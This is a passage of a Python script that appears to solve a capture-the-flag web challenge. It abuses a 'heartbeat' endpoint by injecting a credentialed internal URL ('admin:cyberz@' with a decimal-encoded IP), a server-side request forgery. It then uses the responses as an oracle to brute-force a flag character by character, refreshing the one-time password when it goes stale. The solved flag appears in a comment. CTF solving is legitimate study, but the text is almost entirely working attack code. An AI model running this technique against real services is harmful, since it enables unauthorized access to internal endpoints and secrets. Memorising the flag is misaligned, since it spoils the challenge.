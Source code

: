 ```py
                answer += str(v)
                break
        else:
            print("No digit is correct, try again, might be bad timing")
            assert(False)
    return answer

def brute_flag():
    def url(otp, response):
        return f"{BASE}/heartbeat?endpoint=admin:cyberz@174380461/flag/{otp}&response={response}"

    # discovered that all the letters were hex
    alphabet = "0123456789abcdef" + "_-}"

    flag = "flag{"
    otp = get_otp()
    print("OTP:", otp)
    
    while "}" not in flag:
        # make sure last is correct
        u = url(otp, flag)
        r = s.post(u).json()
        print("Last is correct:", r["status"])

        for v in alphabet:
            nflag = flag + v

            r = s.post(url(otp, nflag)).json()["status"]
            # check that the OTP is still valid *after* we try a letter
            inv = s.post(url(otp, '{"error":"OTP invalid"}')).json()["status"]

            if inv:
                print("OPT stale...")
                otp = get_otp()
                print("OTP:", otp)
                
                r = s.post(url(otp, nflag)).json()["status"]
                inv = s.post(url(otp, '{"error":"OTP invalid"}')).json()["status"]
                assert(not inv)
                

            if r:
                flag = nflag
                print(flag)
                break
        else:
            print("No character is correct, make better alphabet!")
            exit(1)
    
    # flag{bl0663r5_b3_bl0661n6}
    print(flag)
    u = url(otp, flag)
    r = s.post(u).json()
    print("Correct: ", r["status"])
```
